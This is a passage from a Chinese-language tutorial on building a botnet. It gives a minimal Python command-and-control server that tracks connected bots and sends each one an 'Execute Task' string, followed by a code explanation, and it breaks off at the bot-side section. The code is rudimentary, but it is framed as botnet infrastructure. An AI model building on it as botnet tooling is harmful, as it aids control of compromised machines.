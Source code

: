 C&C 服务器是 Botnet 的核心控制中心，它管理所有感染的计算机（bots）。以下是一个简单的 C&C 服务器端代码，它使用 Python 编写，并通过网络套接字与 bots 通信。

```python
import socket
import threading

# 存储已连接的 bot
bots = []

def handle_bot(bot_socket, bot_address):
    """处理来自 bot 的连接"""
    print(f"[NEW CONNECTION] Bot {bot_address} connected.")
    
    while True:
        # 接收来自 bot 的消息
        message = bot_socket.recv(1024).decode()
        if not message:
            break
        print(f"[{bot_address}] {message}")
        
        # 发送命令给 bot
        bot_socket.send("Execute Task".encode())
    
    bot_socket.close()
    bots.remove(bot_socket)
    print(f"[DISCONNECTED] Bot {bot_address} disconnected.")

def start_server():
    """启动 C&C 服务器"""
    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server.bind(("0.0.0.0", 9999))
    server.listen(5)
    print("[STARTED] C&C server started on port 9999.")
    
    while True:
        bot_socket, bot_address = server.accept()
        bots.append(bot_socket)
        thread = threading.Thread(target=handle_bot, args=(bot_socket, bot_address))
        thread.start()

if __name__ == "__main__":
    start_server()
```

#### **代码解释**：
- **服务器创建**：服务器通过 `socket.socket()` 创建一个 TCP 服务器，并监听 9999 端口，等待 bot 连接。
- **接受连接**：当一个 bot 连接到服务器时，`server.accept()` 会接受连接并返回 socket 对象和 bot 的 IP 地址。
- **多线程**：每当有一个新的 bot 连接时，服务器会为该连接创建一个新的线程，来处理来自该 bot 的请求。
- **消息交换**：服务器接收来自 bot 的消息，并发送执行命令给 bot。这里用的是简单的字符串消息："Execute Task"。

### 2. **Bot 端代码（Python）**
